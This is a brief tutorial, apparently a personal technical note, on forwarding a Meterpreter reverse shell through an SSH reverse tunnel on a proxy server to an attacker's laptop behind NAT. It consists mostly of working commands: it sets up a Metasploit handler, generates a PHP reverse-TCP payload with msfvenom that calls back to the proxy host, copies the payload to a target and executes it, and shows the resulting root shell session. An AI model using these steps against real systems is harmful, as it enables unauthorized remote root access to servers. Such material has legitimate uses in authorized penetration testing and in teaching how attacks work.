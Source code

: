 # Forwarding Meterpreter to your Laptop

Let's say we want to have a reverse shell \(through Meterpreter\), but we don't want to run metasploit on our servers. We want it on our laptop, but unfortunately, it did not have any front-facing public IP. In this article, I will show how to use our server as proxy to connect the reverse shell from our target to our laptop sitting behind NAT.

```bash
# setup ssh tunnel
laptop:$ ssh -R 0.0.0.0:8080:127.0.0.1:1337 -NF user@proxy_server

# listen for meterpreter connection
laptop:$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 1337
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > exploit -j
```

Next let's generate payload and have our target execute it.

```bash
# generate payload
laptop:$ msfvenom -p php/meterpreter_reverse_tcp \
     LHOST=proxy_server \
     LPORT=8080 > payload

# move payload to target server
laptop:$ scp payload.php target:payload.php

# execute payload in target server
target:$ php payload.php
```

Then boom

```bash
msf5 exploit(multi/handler) >
[*] Meterpreter session 1 opened

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter php/linux  root (0) @ f62342bbe4ce  127.0.0.1:1337 -> 127.0.0.1:51306 (127.0.0.1)

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 121 created.

whoami
root
```

